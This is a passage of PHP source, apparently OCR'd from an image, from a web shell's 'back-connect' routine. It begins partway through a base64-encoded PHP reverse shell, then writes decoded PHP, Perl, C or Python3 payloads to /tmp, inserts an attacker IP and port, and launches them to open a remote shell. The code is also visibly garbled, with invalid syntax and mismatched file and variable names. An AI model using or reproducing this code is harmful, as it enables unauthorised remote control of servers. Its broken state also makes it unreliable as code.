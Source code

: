 ```php
Y2h1bmtfc2l6ZSk7CgkJaWYgKCRkZWJ1ZykgcHJpbnRpdCgiU1RET1VUOiAkaW5wdXQiKTsKCQlm
d3JpdGUoJHNvY2ssICRpbnB1dCk7Cgl9CglpZiAoaW5fYXJyYXkoJHBpcGVzWzJdLCAkcmVhZF9h
KSkgewoJCWlmICgkZGVidWcpIHByaW50aXQoIlNUREVSUiBSRUFEIik7CgkJJGlucHV0ID0gZnJl
YWQoJHBpcGVzWzJdLCAkY2h1bmtfc2l6ZSk7CgkJaWYgKCRkZWJ1ZykgcHJpbnRpdCgiU1RERVJS
OiAkaW5wdXQiKTsKCQlmd3JpdGUoJHNvY2ssICRpbnB1dCk7Cgl9Cn0KZmNsb3NlKCRzb2NrKTsK
ZmNsb3NlKCRwaXBlc1swXSk7CmZjbG9zZSgkcGlwZXNbMV0pOwpmY2xvc2UoJHBpcGVzWzJdKTsK
cHJvY19jbG9zZSgkcHJvY2Vzcyk7CmZ1bmN0aW9uIHByaW50aXQgKCRzdHJpbmcpIHsKCWlmICgh
JGRhZW1vbikgewoJCXByaW50ICIkc3RyaW5nXG4iOwoJfQp9Cj8+IAoKCgo=";

    if ($method == "PHP") {
        fputs($i = fopen("/tmp/shlbck.php", "w"), base64_decode($php));
        fclose($i);
        $buffer = "";
        if $patterns = array("/LHOST/" => $ip,"/LPORT/" => $port);

        $patterns = [
            "/LHOST/" => $ip,
            "/LPORT/" => $port,
        ];
        fopen($i, "r+");
        while (!feof($file_handle)) {
            $line = fgets($file_handle);
            foreach ($patterns as $pattern => $replacement) {
                $line = preg_replace_callback(
                    $pattern,
                    function ($matches) use ($replacement) {
                        return $replacement;
                    },
                    $line
                );
            }
            $buffer .= $line;
        }
        fseek($file_handle, 0);
        ftruncate($file_handle, 0);
        fwrite($file_handle, $buffer);
        fclose($file_handle);
        ex(which("php") . "-f /tmp/shlhck.php &");
        unlink("/tmp/shlbck");
        return ex("netstat -an | grep -i listen");
    } elseif ($method == "Perl") {
        fputs($i = fopen("/tmp/shlbck", "w"), base64_decode($perl));
        fclose($i);
        ex(which("perl") . " /tmp/shlbck " . $ip . " " . $port . " &");
        unlink("/tmp/shlbck");
        return ex("netstat -an | grep -i listen");
    } elseif ($method == "C") {
        fputs($i = fopen("/tmp/shlbck.c", "w"), base64_decode($c));
        fclose($i);
        ex("gcc shlbck.c -o shlbck");
        unlink("shlbck.c");
        ex(which("nohup") . "/tmp/shlbck " . $ip . " " . $port . " &");
        unlink("/tmp/shlbck");
        return ex("netstat -an | grep -i listen");
    } elseif ($method == "Python3") {
        puts($i = fopen("/tmp/shlbck.py", "w"), base64_decode($python3));
        fclose($i);
        ex(which("python3") . "/tmp/shlbck.py" . $ip . " " . $port . " &");
        unlink("/tmp/shlbck");
        return ex("netstat -an | grep -i listen");
    } else {
        return "Choose method";
    }
```